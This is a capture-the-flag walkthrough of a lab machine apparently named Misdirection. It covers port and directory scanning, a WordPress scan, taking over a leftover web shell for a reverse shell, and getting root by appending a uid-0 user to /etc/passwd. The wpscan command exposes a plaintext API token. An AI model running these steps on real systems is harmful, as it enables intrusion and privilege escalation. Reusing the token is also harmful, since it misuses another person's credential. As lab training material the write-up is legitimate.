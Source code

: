 # MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`

![964ae28c347ea800c0ca3cb1af9404fc.png](./_resources/f8184439c1bc485198e1fbabbc256194.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`
![c0118f47fe3f23543752037d1cd3819a.png](./_resources/4482c4bf993e417685148f57d11af681.png)

`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`
You will need grep data that not contain 400 status code:

![57f359a1ac8c6bb2a67ff4619507d0be.png](./_resources/cf75231c96414c28b812d0e075b996fa.png)

### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`
It shows us the app version:
![e0e864b44d766ba704d46023ccf3cbee.png](./_resources/898f5658981f44ad835074360dc57734.png)

### 3.3.3 Web2py exploit (but not usable)
![1c2993967314b90787c70b7e71328f70.png](./_resources/db6e6e2312d44a9bb5285d93f093f2e3.png)

## 1.4 Web 8080
### 1.4.1 Dirb
![8d73d362506f8d8a4312bbd596efd2a3.png](./_resources/e1b093ad4cea4cd0b9eef71ba3285f35.png)

Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)
![b83066b3a593994bb2a59b4bf2fea860.png](./_resources/7b7b9241d3f5418ba9fbc2194d746a33.png)
Here we have a web shell previously uploaded by an attacker. I will use it.


# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:

![ff339e186917b0d67b44f0eccb33c84a.png](./_resources/30d8685843284d37ad9ed3289aa98dbb.png)


# 3 Post-exploitation
LinEnum returns some information:
![794419220afc11924c878cccbaad64b2.png](./_resources/4f318c4c53854d73ac64ab2049a9b0fa.png)
![bcabaf737f7668b53158a3050497cad8.png](./_resources/182c1ba93b234e8698ff7261c793c224.png)

## 3.1 First user
`sudo -u brexit /bin/bash`

![928841574ea280986c8302033b2610e6.png](./_resources/dbdf0674767b42d2be38840ba5075579.png)

## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`
![2016a7f9e96d0bba799880d83c8b9a24.png](./_resources/80bcb574c6ff4cad840f3f9e52854a92.png)

With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`
obs: Its necessary to use single quotes, or the new user is not added.

![c822d5c8d2b6c604aa7e0bfa3ca82185.png](./_resources/483d8f387d9f4c9c90c9eed9ec538208.png)
